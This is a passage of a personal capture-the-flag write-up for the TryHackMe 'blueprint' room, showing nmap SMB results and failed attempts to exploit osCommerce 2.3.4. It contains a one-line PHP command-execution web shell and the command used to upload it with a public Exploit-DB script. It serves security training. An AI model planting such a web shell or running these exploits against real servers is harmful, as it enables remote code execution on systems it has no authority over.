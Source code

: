 ```
|_    Message signing enabled but not required
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 92.19 seconds
```


### HTTP 8080

- found multiple files at http://10.10.220.55:8080/oscommerce-2.3.4/docs/
- "osCommerce Online Merchant v2.3.4" is installed

- following this exploit
https://www.exploit-db.com/exploits/44374


http://10.10.220.55:8080/oscommerce-2.3.4/catalog/install/


this exploit was not successfull


### Foothold

- Using a different writeup

- created a php RCE shell 
```
   │   ~/Desktop/THM/blueprint ▓▒░ cat shell.php                                                                             ░▒▓ ✔ │ 22:32:17   
 
<?php passthru($_GET['cmd']); ?>%
```

- made some changes in the 43191.py https://www.exploit-db.com/exploits/43191
(just put the brackets where it is giving error)

and change `import urlparse` to `from urllib.parse import urlparse`


- now running the exploit command

```
python3 43191.py -u http://10.10.220.55:8080/oscommerce-2.3.4 --auth=admin:admin -f shell.php
```

we encounter an error

```
[-] The script wasn't able to authenticate itself to osCommerce. Are you sure that the credentials are correct? Is http://10.10.220.55:8080/oscommerce-2.3.4/catalog/admin/login.php the Admin Path?
```

so first i went to http://10.10.220.55:8080/oscommerce-2.3.4/catalog/admin/login.php and created a `admin:admin` login and then ran the command again and this was also not working

---